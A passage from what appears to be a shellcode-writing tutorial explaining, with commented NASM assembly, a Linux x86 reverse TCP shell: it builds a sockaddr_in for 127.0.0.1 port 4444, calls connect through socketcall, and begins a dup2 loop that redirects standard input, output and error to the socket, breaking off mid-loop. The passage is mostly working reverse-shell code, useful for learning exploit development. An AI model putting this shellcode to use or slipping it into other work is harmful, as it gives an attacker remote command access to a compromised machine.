 struct in_addr sin_addr {
  unsigned int        s_addr;
}</code></pre><p>The size of the struct <code>sockaddr_in</code> is <code>0x10</code> bytes (due to padding). Follows the assembly code regarding the creation of the aforementioned struct, and the <code>connect</code> function:</p><pre><code class="language-nasm">    ; inet_aton("127.0.0.1")
    ;rol ebx, 24
    ;push ebx
    push 0x0100007f
    ;mov [esp], BYTE 127
    
    ; 0x115c -&gt; htons(4444)
    push WORD 0x5c11

    ; 0x0002 -&gt; AF_INET
    mov bl, 2
    push WORD bx

    ; save the pointer to the struct for later
    mov ecx, esp
    
    ; 3rd argument of connect(): size of the struct
    ; push 16
    xor ebx, ebx
    mov bl, 16
    push ebx

    ; 2nd argument of connect(): pointer to the struct
    push ecx

    ; 1st argument of connect(): file descriptor of the server socket
    push esi
    
    ; syscall socketcall()
    xor eax, eax
    mov al, 102

    ; 1st argument of socketcall(): call SYS_CONNECT
    mov bl, 3

    ; 2nd argument of socketcall(): pointer to the parameters of bind()
    mov ecx, esp

    int 0x80</code></pre><p>Next, we're ready to redirect <code>stdin</code>/<code>stdout</code>/<code>stderr</code> towards the server socket.</p><pre><code class="language-nasm">    ; loop counter (repeats dup2() three times)
    mov ecx, ebx

RepeatDuplicate:
    ; save ecx since it's modified later
    push ecx

    ; dup2() syscall
    mov al, 63

    ; Client file descriptor
    mov ebx, esi
